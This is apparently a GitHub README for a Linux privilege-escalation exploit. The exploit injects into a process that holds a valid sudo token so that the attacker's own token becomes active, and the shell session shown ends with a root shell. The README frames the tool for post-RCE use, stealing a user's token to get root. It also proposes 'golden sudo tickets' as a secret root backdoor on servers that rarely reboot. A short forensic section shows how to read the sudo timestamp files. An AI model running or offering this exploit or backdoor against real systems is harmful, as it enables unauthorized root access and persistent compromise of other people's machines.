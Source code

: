 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
A currently living process that has a valid sudo token with the same uid.
```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## Going further

### Forensic, DFIR ?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Golden sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)), and everything can be impressionnated except the start times which are relative to system boot time.

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
